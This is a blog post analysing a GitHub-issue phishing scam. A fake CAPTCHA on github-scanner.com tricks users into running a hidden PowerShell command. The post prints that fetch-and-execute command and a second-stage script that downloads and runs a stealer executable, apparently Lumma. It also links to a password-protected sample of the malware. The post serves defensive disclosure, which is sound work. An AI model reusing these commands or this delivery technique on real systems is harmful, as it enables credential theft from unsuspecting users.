

Today, I received an email claiming that a security vulnerability had been detected in one of my GitHub repositories. Typically, I receive security notifications from Dependabot, which direct me back to GitHub for further action.

However, this email was unusual. It prompted me to visit an external site, github-scanner.com, rather than linking to GitHub. The email was tied to an issue opened in my repository, urging me to visit this unknown link for more information on how to resolve the issue.


<!--truncate-->

Fortunately, GitHub quickly identified the issue as fraudulent and removed it from my repository.


However, I still had the content of the malicious issue in my email. Out of curiosity, I clicked on the link provided.

The website asked me to verify that I wasn't a robot. While this process is common when accessing certain websites via VPN, the human verification on this site seemed off—completely custom-built and not at all like the standard verifications by services such as Cloudflare.


After clicking the verification button, a text snippet (a PowerShell command) was automatically copied to my clipboard. The website then instructed me to paste and run the command using the `Run` dialog.

This is highly suspicious since legitimate human verification methods typically involve solving a CAPTCHA or recognizing images or audio.


Here’s the PowerShell command that was copied to my clipboard:

```
powershell.exe -w hidden -Command "iex (iwr 'https://github-scanner.com/download.txt').Content" # "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"
```

Breaking Down the Command

- `powershell.exe -w hidden` runs PowerShell in hidden mode, meaning no console window is visible to the user.
- `-Command "iex (iwr 'https://github-scanner.com/download.txt').Content"` fetches content from `https://github-scanner.com/download.txt` and executes it immediately.
    - `iex` (short for `Invoke-Expression`) executes a string as a command.
    - `iwr` (short for `Invoke-WebRequest`) sends a request to the specified URL.
    - `.Content` extracts the contents of the web request.
- The comment `# "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"` is there to mislead the user, implying the text is harmless and related to the verification process.

This is what the command looks like when pasted into the Run dialog:



Analyzing the Downloaded Script

The URL `https://github-scanner.com/download.txt` contains the following PowerShell script:

```ps1
$WebClient = New-Object System.Net.Webclient
$url1 = "https://gitub-scanner.com/l6E.exe"
$filePath1 = "$env:TEMP\SysSetup.exe"
$webClient.DownloadFile($url1, $filePath1)
Start-Process -FilePath $env:TEMP\SysSetup.exe
```

Let's break it down:

- `$WebClient = New-Object System.Net.Webclient` creates an instance of the `WebClient` class, which is used to download files.
- `$url1 = "https://github-scanner.com/l6E.exe"`specifies the URL of the file to be downloaded.
- `$filePath1 = "$env:TEMP\SysSetup.exe"` defines where the file will be saved (in the temp folder, under the name SysSetup.exe to appear legitimate).
- `$webClient.DownloadFile($url1, $filePath1)` downloads the file and stores it in the specified location.
- `Start-Process -FilePath $env:TEMP\SysSetup.exe` runs the downloaded file.


The infected file can be downloaded from [here](./l6E.exe.bin-infected.zip). The password for this file is: `infected`. 

Static Analysis with VirusTotal

Running a static analysis through VirusTotal shows that only 12 antivirus engines detected this file as malicious. It appears to be a common stealer, but the low detection rate suggests it might be packed in a way that evades many detection systems. You can view the report [here](https://www.virustotal.com/gui/url/b64a25fef85ad988dee3ds3b772ea60dc4d53333cd0857924745c000ff858c5eb).


Interestingly, there’s already a comment on VirusTotal from someone who encountered the scam through a similar method.


Dynamic Analysis with Any.Run

I ran the sample through Any.Run for dynamic analysis. You can view the report [here](https://app.any.run/tasks/8ac63e3e-621c-4d47-b832-73dad43c208c).


The stealer connects to several unknown hosts, likely for redundancy. If one IP or domain gets taken down, the stealer can still communicate with others.

Suricata, an open-source intrusion detection system, has identified this as the ["LUMMA Stealer"](https://malpedia.caad.fkie.fraunhofer.de/details/win.lumma)


    


Further Dynamic Analysis with Triage

I submitted the sample for further analysis using Triage. You can view the full report [here](https://tria.ge/240919-fczkva1gja/behavioral1).

The stealer performs several discovery techniques, including browser information discovery, and tries to contact multiple domains.


Investigating the IP Address

I looked up the IP address hosting the web server, which provided information about the hosting provider and an email address to report abuse.


WHOIS Lookup of the Domain

Here’s the WHOIS information for `github-scanner.com`:

```yaml
   Domain Name: GITHUB-SCANNER.COM
   Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.webnic.cc
   Registrar URL: http://https://www.webnic.cc
   Updated Date: 2024-09-18T12:34:24Z
   Creation Date: 2024-09-18T12:34:24Z
   Registry Expiry Date: 2025-09-18T12:34:24Z
   Registrar: Web Commerce Communications Limited dba WebNic.cc
   Registrar IANA ID: 460
   Registrar Abuse Contact Email: compliance_abuse@webnic.cc
   Registrar Abuse Contact Phone: +60.189836788
   Domain Status: ok https://icann.org/epp#ok
   Name Server: CODY.NS.CLOUDFLARE.COM
   Name Server: MARGOT.NS.CLOUDFLARE.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2024-09-19T04:59:15Z <<<

...

The Registry database contains ONLY .COM, .NET, .EDU domains and
Registrars.


Domain Name: GITHUB-SCANNER.COM
Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.webnic.cc 
Registrar URL: http://www.webnic.cc 
Updated Date: 2024-09-18T12:41:20Z
Creation Date: 2024-09-18T12:34:24Z
Expiration Date: 2025-09-18T00:34:24Z
Registrar: WEBCC 
Registrar IANA ID: 460 
Registrar Abuse Contact Email: compliance_abuse@webnic.cc 
Registrar Abuse Contact Phone: +60.389966799 
Domain Status: ok https://icann.org/epp#ok 
Registry Registrant ID: Not Available From Registry
Registrant Name: Domain Admin 
Registrant Organization: Whoisprotection.cc
Registrant Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Registrant City: Kuala Lumpur
Registrant State/Province: Wilayah Persekutuan
Registrant Postal Code: 57000
Registrant Country: Malaysia
Registrant Phone: +60.389966788
Registrant Phone Ext: 
Registrant Fax: +603.89966788
Registrant Fax Ext: 
Registrant Email: reg_21331022@whoisprotection.cc
Registry Admin ID: Not Available From Registry
Admin Name: Domain Admin 
Admin Organization: Whoisprotection.cc
Admin Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Admin City: Kuala Lumpur
Admin State/Province: Wilayah Persekutuan
Admin Postal Code: 57000
Admin Country: Malaysia
Admin Phone: +60.389966788
Admin Phone Ext: 
Admin Fax: +603.89966788
Admin Fax Ext: 
Admin Email: adm_21331022@whoisprotection.cc
Registry Tech ID: Not Available From Registry
Tech Name: Domain Admin 
Tech Organization: Whoisprotection.cc
Tech Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Tech City: Kuala Lumpur
Tech State/Province: Wilayah Persekutuan
Tech Postal Code: 57000
Tech Country: Malaysia
Tech Phone: +60.389966788
Tech Phone Ext: 
Tech Fax: +603.89966788
Tech Fax Ext: 
Tech Email: tec_21331022@whoisprotection.cc
Name Server: CODY.NS.CLOUDFLARE.COM
Name Server: MARGOT.NS.CLOUDFLARE.COM
DNSSEC: unsigned

URL of the ICANN WHOIS Data Problem Reporting System: https://www.icann.org/wicf
>>> Last update of WHOIS database: 2024-09-19T04:59:24Z <<<
does not guarantee its accuracy. By submitting a WHOIS query, you agree 
that you will use this Data only for lawful purposes and that, under no 
circumstances will you use this Data to:

...
```
